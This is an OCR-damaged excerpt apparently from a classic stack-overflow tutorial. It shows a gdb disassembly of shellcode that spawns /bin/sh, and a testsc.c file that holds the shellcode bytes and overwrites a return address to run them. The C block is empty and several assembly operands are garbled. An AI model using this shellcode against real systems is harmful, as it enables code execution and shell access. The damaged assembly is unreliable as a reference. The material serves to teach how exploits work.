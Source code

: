 ```c
```

```
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm
GDB is free software and you are welcome to distribute copies of it
under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 : pushl %ebp
0x8000131 : movl %esp,%ebp
0x8000133 : jmp 0x800015f
0x8000135 : popl %esi
0x8000136 : movl %esi,0x8(%esi)
0x8000139 : movb x0,0x7(%esi)
0x800013d : movl x0,0xc(%esi)
0x8000144 : movl xb,%eax
0x8000149 : movl %esi,%ebx
0x800014b : leal 0x8(%esi),%ecx
0x800014e : leal 0xc(%esi),%edx
0x8000151 : int x80
0x8000153 : movl x1,%eax
0x8000158 : movl x0,%ebx
0x800015d : int x80
0x800015f : call 0x8000135
0x8000164 : das
0x8000165 : boundl 0x6e(%ecx),%ebp
0x8000168 : das
0x8000169 : jae 0x80001d3 <__new_exitfn+55>
0x800016b : addb %cl,0x55c35dec(%ecx)
End of assembler dump.
(gdb) x/bx main+3
0x8000133 : 0xeb
(gdb)
0x8000134 : 0x2a
(gdb)
.
.
.
```

testsc.c

```c
char shellcode[] =
    "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
    "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
    "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
    "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() {
    int *ret;

    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;

}
```
